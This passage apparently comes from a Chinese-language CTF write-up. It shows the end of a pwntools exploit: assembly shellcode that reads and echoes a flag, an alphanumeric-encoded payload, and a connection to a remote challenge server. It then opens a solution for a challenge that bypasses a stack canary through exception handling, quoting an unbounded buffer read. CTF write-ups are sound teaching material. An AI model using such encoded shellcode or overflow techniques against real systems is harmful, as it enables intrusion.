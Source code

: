 ```Python
    syscall
    push rax;pop rdi
    inc rdx
    xor rbx,rbx
read_loop:
    lea rsi, [rsp+rbx]
    inc rbx
    xor rax,rax
    syscall
    cmp rax, 0
    jne read_loop
    
    push 1
    pop rdi
    xor r12,r12
write_loop:
    lea rsi, [rsp+r12]
    inc r12
    xor rax,rax
    inc rax
    syscall
    cmp r12, rbx
    jne write_loop

    push __NR_exit_group
    pop rax
    syscall
"""
#obj=AE64()
#code=(obj.encode(asm(code),strategy="small",offset=0x34,register="rax"))
code=b"WTYH39YjoTYfi9pYWZjETYfi95J0t800T8U0T8Vj3TYfi9CA0t800T8KHc1jwTYfi1CgLJt0OjeTYfi1ujVYIJ4NVTXAkv21B2t11A0v1IoVL90uzejnz1ApEsPhzo1V4JKTsidt1Yzm3OJhV8j5dBXjTqEdkqCiJCk5K6FvpLO5U2BUEgKXldTyVcFSY9YZO5KdWIZZ6wRO1Pa4LqgN98TOQ2tl4Gu46ypI2W0cE2aj"
#s=process("../src/test")
s=remote("8.130.35.16",58002)
pause()
s.send(asm("pop rax")*4+code+b"flag")
#s.send(asm(code)+b"/flag\x00")
s.interactive()
```

### nception

这题知识点是异常处理绕canary以及无leak利用。

[出题小记以及非预期放我博客了](https://blog.unauth401.tech/2023nctf/)，这边直接放solution。

#### **solution**

漏洞出现在edit功能中：

```C
char buf[0x200];
std::cin>>buf;
if (strlen(buf)>size_avail) {
    throw exception("Buf too long");
}
```
